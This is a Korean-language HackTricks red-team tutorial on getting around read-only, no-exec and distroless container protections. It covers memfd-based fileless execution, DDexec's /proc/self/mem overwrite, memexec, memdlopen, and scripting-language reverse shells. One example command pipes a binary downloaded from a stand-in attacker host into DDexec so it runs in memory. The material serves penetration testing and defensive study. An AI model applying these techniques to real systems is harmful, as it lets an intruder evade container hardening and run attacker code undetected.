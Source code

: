 # FS 보호 기능 우회: 읽기 전용 / 실행 불가 / Distroless

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 AWS 해킹을 제로부터 전문가까지 배우세요</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 PDF로 HackTricks를 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 굿즈**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* 여러분의 해킹 기술을 공유하려면 **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소로 PR을 제출하세요.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **저희가 채용 중입니다!** (_유창한 폴란드어 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

## 비디오

다음 비디오에서는 이 페이지에서 언급된 기술에 대해 더 자세히 설명된 내용을 찾을 수 있습니다:

* [**DEF CON 31 - 은밀하고 회피를 위한 Linux 메모리 조작 탐색**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng 및 메모리 dlopen()을 사용한 은밀한 침입 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 읽기 전용 / 실행 불가 시나리오

특히 컨테이너에서 **읽기 전용 (ro) 파일 시스템 보호**로 마운트된 리눅스 머신을 더 많이 찾을 수 있습니다. 이는 `securitycontext`에서 **`readOnlyRootFilesystem: true`**를 설정하는 것만으로 ro 파일 시스템을 사용하여 컨테이너를 실행할 수 있기 때문입니다:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

그러나 파일 시스템이 ro로 마운트되어 있더라도 **`/dev/shm`**은 여전히 쓰기 가능하므로 디스크에 아무것도 쓸 수 없는 것은 가짜입니다. 그러나 이 폴더는 **실행 불가 보호로 마운트**되므로 여기에 바이너리를 다운로드하면 **실행할 수 없습니다**.

{% hint style="warning" %}
적색 팀 관점에서는 시스템에 이미 없는 바이너리(백도어 또는 `kubectl`과 같은 열거자)를 **다운로드하고 실행하는 것이 복잡**해집니다.
{% endhint %}

## 가장 쉬운 우회: 스크립트

바이너리를 언급했지만, 인터프리터가 머신 내에 있는 한 **쉘 스크립트**(`sh`가 설치되어 있는 경우)나 **파이썬 스크립트**(`python`이 설치된 경우)와 같이 **스크립트를 실행**할 수 있습니다.

그러나 이것만으로는 바이너리 백도어나 실행해야 할 다른 바이너리 도구를 실행할 수 없을 수도 있습니다.

## 메모리 우회

파일 시스템이 실행을 허용하지 않더라도 바이너리를 실행하려면 **메모리에서 실행**하는 것이 가장 좋습니다. 왜냐하면 **보호 기능이 적용되지 않기 때문**입니다.

### FD + exec 시스템 호출 우회

머신 내에 **Python**, **Perl**, 또는 **Ruby**와 같은 강력한 스크립트 엔진이 있는 경우, 메모리에서 실행할 바이너리를 다운로드하고, 이를 메모리 파일 디스크립터(`create_memfd` 시스템 호출)에 저장한 후, 이러한 보호 기능에 의해 보호되지 않을 것이므로 **fd를 파일로 실행**할 수 있도록 **`exec` 시스템 호출**을 호출할 수 있습니다.

이를 위해 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) 프로젝트를 쉽게 사용할 수 있습니다. 이 프로젝트에 바이너리를 전달하면 **바이너리를 디코딩하고 압축 해제하는 지침과 함께** **지정된 언어의 스크립트**를 생성하여 `create_memfd` 시스템 호출을 통해 만든 **fd**에 바이너리를 저장하고 실행하기 위한 **exec** 시스템 호출을 호출합니다.

{% hint style="warning" %}
PHP 또는 Node와 같은 다른 스크립팅 언어에서는 **스크립트에서 원시 시스템 호출을 호출하는 기본 방법**이 없기 때문에 `create_memfd`를 호출하여 **메모리 fd**를 만들어 바이너리를 저장할 수 없습니다. 따라서 `/dev/shm`에 파일이 있는 **일반 fd**를 만들어도 **실행할 수 없습니다**. 왜냐하면 **실행 불가 보호**가 적용되기 때문입니다.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)는 **자신의 프로세스 메모리를 수정**하여 **`/proc/self/mem`**을 덮어쓰는 기술로, **프로세스가 실행하는 어셈블리 코드를 제어**하여 **쉘코드**를 작성하고 프로세스를 **임의의 코드를 실행**하도록 "변이"시킬 수 있습니다.

{% hint style="success" %}
**DDexec / EverythingExec**를 사용하면 **메모리**에서 자체 **쉘코드** 또는 **임의의 바이너리**를 **로드하고 실행**할 수 있습니다.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec)는 DDexec의 자연스러운 다음 단계입니다. **DDexec 셸코드를 데몬화**한 것으로, **다른 이진 파일을 실행**하려면 DDexec을 다시 시작할 필요가 없습니다. 대신 DDexec 기술을 통해 memexec 셸코드를 실행하고 **이 데몬과 통신하여 새로운 이진 파일을로드하고 실행**할 수 있습니다.

**memexec를 사용하여 PHP 역쉘에서 이진 파일을 실행하는 예제**는 [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)에서 찾을 수 있습니다.

### Memdlopen

DDexec과 유사한 목적을 가진 [**memdlopen**](https://github.com/arget13/memdlopen) 기술은 **메모리에 이진 파일을로드하여 나중에 실행하는 더 쉬운 방법**을 제공합니다. 이를 통해 종속성이 있는 이진 파일을로드할 수도 있습니다.

## Distroless Bypass

### Distroless란

Distroless 컨테이너에는 특정 응용 프로그램이나 서비스를 실행하는 데 필요한 **최소한의 구성 요소만 포함**되어 있습니다. 라이브러리 및 런타임 종속성과 같은 것은 포함되지만 패키지 관리자, 셸 또는 시스템 유틸리티와 같은 큰 구성 요소는 제외됩니다.

Distroless 컨테이너의 목표는 **불필요한 구성 요소를 제거**함으로써 컨테이너의 **공격 표면을 줄이고 악용될 수 있는 취약점의 수를 최소화**하는 것입니다.

### 역쉘

Distroless 컨테이너에서는 일반 쉘을 얻기 위해 `sh` 또는 `bash`를 **찾을 수 없을 수도** 있습니다. 또한 `ls`, `whoami`, `id`와 같은 이진 파일도 찾을 수 없습니다. 이는 일반적으로 시스템에서 실행하는 모든 것입니다.

{% hint style="warning" %}
따라서 보통 하는 것처럼 **역쉘을 얻거나** 시스템을 **열거**할 수 없습니다.
{% endhint %}

그러나 감염된 컨테이너가 예를 들어 플라스크 웹을 실행 중이라면 Python이 설치되어 있으므로 **Python 역쉘**을 얻을 수 있습니다. Node를 실행 중이라면 Node 역쉘을 얻을 수 있으며 대부분의 **스크립팅 언어**도 마찬가지입니다.

{% hint style="success" %}
스크립팅 언어를 사용하여 **언어 기능을 활용하여 시스템을 열거**할 수 있습니다.
{% endhint %}

**`read-only/no-exec`** 보호 기능이 없는 경우에는 역쉘을 악용하여 파일 시스템에 **자신의 이진 파일을 작성**하고 **실행**할 수 있습니다.

{% hint style="success" %}
그러나 이러한 종류의 컨테이너에서는 일반적으로 이러한 보호 기능이 존재하지만 **이를 우회하기 위해 이전 메모리 실행 기술을 사용**할 수 있습니다.
{% endhint %}

**RCE 취약점을 악용하여 스크립팅 언어 역쉘을 얻고 메모리에서 이진 파일을 실행하는 방법**에 대한 **예제**는 [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)에서 찾을 수 있습니다.
